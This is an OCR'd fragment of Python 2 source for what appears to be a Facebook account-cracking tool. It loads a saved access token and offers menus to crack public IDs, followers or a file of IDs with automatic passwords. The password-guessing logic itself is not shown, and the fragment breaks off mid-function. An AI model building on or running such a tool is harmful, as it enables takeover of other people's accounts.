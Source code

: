 	else:

		print("")

		print("\t\033[91;1m     SELECT VALID OPTION")

		print("")

		menu_option()

def crack1():

	global token

	os.system("clear")

	try:

		token = open("vau_token.txt","r").read()

	except IOError:

		print("")

		print("\t\033[91;1m  TOKEN NOT FOUND ")

		time.sleep(1)

		fb_token()

	os.system("clear")

	logo()

	print("")

	print("\t\033[93;1m CRACK WITH AUTO PASS")

	print("")

	print("\033[94;1m  [1] CRACK PUBLIC ID")

	print("\033[93;1m  [2] CRACK FOLLOWERS")

	print("\033[92;1m  [3] CRACK FILE")

	print("")

	crack_select1()

	

def crack_select1():

	select = raw_input("\033[92;1m  CHOOSE : ")

	id=[]

	oks=[]

	cps=[]

	if select =="1":

		os.system("clear")
